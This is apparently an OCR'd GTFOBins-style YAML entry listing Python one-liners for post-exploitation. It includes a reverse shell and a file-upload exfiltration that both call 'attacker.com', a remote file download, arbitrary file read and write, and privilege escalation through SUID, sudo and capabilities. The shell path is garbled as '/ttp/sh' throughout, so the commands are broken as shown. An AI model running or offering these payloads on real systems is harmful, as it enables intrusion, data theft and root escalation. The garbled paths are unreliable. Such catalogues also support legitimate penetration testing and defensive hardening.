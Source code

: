 ```yaml
---
description: The payloads are compatible with both Python version 2 and 3.
functions:
  shell:
    - code: python -c 'import os; os.system("/ttp/sh")'
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python -c 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/ttp/sh")'
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python -c 'print(open("file_to_read").read())'
  library-load:
    - code: python -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid:
    - code: ./python -c 'import os; os.execl("/ttp/sh", "sh", "-p")'
  sudo:
    - code: sudo python -c 'import os; os.system("/ttp/sh")'
  capabilities:
    - code: ./python -c 'import os; os.setuid(0); os.system("/ttp/sh")'
---
```

